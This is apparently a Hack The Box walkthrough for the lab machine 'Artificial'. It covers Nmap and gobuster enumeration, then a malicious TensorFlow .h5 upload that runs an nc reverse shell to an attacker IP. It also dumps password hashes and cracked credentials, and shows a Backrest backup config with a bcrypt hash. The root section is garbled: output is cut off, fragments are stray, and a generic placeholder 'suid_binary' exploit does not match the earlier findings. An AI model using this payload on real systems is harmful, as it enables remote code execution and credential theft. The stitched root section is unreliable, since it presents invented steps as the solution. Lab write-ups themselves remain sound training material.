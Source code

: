 ```yaml
---
name: Artificial
difficulty: easy
os: linux
platform: htb
date: 9999

img: https://labs.hackthebox.com/storage/avatars/e6633d6c2b1d824c3756eb21aeed7590.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.74 -o content/allPortsFiltered
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
We can see that ports 22 (SSH) and 80 (HTTP) are open.

When accessing `http://10.10.11.74` it redirects to `http://artificial.htb`, which is a custom domain. We need to add this domain to our `/etc/hosts` file:
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

Now we can access the web server using the custom domain `http://artificial.htb`.

We create an account in the web application, which is a simple login page. After creating an account, we can log in with the credentials we set.

For the directory enumeration, we can use tools like `gobuster` or `dirb` to find hidden directories and files.
```bash
gobuster dir -u http://artificial.htb -w /usr/share/wordlists/dirb/common.txt
```
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 857]
/logout               (Status: 302) [Size: 189] [--> /]
```
There are no interesting hidden directories. All of them are related to the web app functionality.


## User Exploitation

After registering and logging in, we can access the `/dashboard` page. The dashboard contains a form to upload `.h5` files.

We can generate a malicious `.h5` file that contains a payload to execute arbitrary code. We will use this github repository, `https://github.com/Splinter0/tensorflow-rce` to create the file.

We add use the docker image provided in the repository to generate the `.h5` file:
```bash
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.90 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

We upload the generated `.h5` file to the web application. The application processes the file and executes the payload, which opens a reverse shell to our machine. 

We can read the database and find all users and their hashed passwords. The database is stored in a file called `instance/users.db`.
``` 
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
```

We use `https://crackstation.net/` to crack the password hashes. After cracking, we find the following credentials
```bash
gael:mattp005numbertwo
royer:marwinnarak043414036
```

We use gael's credentials to log in though SSH:
```bash
ssh gael@artificial.htb
```

Then, we can read the user flag:
```bash
cat /home/gael/user.txt
```
```
user flag value
```

## Root Privilege Escalation

We do id to check the privileges of the user `gael`:
```bash
id
```
```
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

We look for files/directories with sysadm ownership:
```bash 
ls -la / | grep sysadm
```
```
265127-/var/backups:
265128-total 51220
265129--rw-r--r-- 1 root root      38602 Jun  9 10:48 apt.extended_states.0
265130--rw-r--r-- 1 root root       4253 Jun  9 09:02 apt.extended_states.1.gz
265131--rw-r--r-- 1 root root       4206 Jun  2 07:42 apt.extended_states.2.gz
265132--rw-r--r-- 1 root root       4190 May 27 13:07 apt.extended_states.3.gz
265133--rw-r--r-- 1 root root       4383 Oct 27  2024 apt.extended_states.4.gz
265134--rw-r--r-- 1 root root       4379 Oct 19  2024 apt.extended_states.5.gz
265135--rw-r--r-- 1 root root       4367 Oct 14  2024 apt.extended_states.6.gz
265136:-rw-r----- 1 root sysadm 52357120 Mar  4 22:19 backrest_backup.tar.gz
```
We find a file called `backrest_backup.tar.gz` owned by `root:sysadm`. It looks like a compressed backup file. We can extract it to see its contents:
```bash
tar -xvf backrest_backup.tar.gz
```
```
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

In `backrest/.config/backrest/config.json` we find the following content:
```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

Bcrypt is an algorithm used for hashing passwords. The password for the user `backrest_root` is hashed using bcrypt. We can use a tool like `hashcat` or `john the ripper` to crack the password.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt bcrypt.hash
```
```
Using default input encoding: UTF-8




  38   │ [Service]
  39   │ Type=simple
  40   │ User=$(whoami)
  41   │ Group=$(whoami)
  42   │ ExecStart=/usr/local/bin/backrest
  43   │ Environment="BACKREST_PORT=127.0.0.1:9898"
  44   │ Environment="BACKREST_CONFIG=/opt/backrest/.config/backrest/config.json"
  45   │ Environment="BACKREST_DATA=/opt/backrest"
  46   │ Environment="BACKREST_RESTIC_COMMAND=/opt/backrest/restic"

 110   │ echo "Logs are available at ~/.local/share/backrest/processlogs/backrest.log"

 .config/backrest/config.json:10:        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"






### Results

```
/usr/bin/suid_binary
```

### Exploiting the SUID Binary

We can exploit the SUID binary to gain root access. Assuming the binary is vulnerable, we can run it with root privileges:

```bash
/usr/bin/suid_binary
```

### Root Flag

After successfully exploiting the SUID binary, we can find the root flag:

```bash
cat /root/root.txt
```

## Conclusion

Congratulations! You have successfully completed the walkthrough for the example machine. You have learned how to enumerate services, exploit vulnerabilities, and retrieve both user and root flags.
